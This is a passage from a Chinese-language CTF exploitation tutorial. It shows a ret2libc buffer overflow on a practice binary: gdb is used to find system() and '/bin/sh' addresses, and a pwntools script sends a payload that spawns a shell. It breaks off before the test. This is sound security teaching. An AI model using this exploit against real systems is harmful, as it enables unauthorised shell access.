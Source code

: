 那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行`system(“/bin/sh”)`的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。

如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。

```
$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
….
(gdb) break main
Breakpoint 1 at 0x8048430
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level2 

Breakpoint 1, 0x08048430 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
warning: Unable to access target memory at 0xb7fc8500, halting search.
1 pattern found.
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"

```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。下面我们开始写exp：

```
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()

```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：
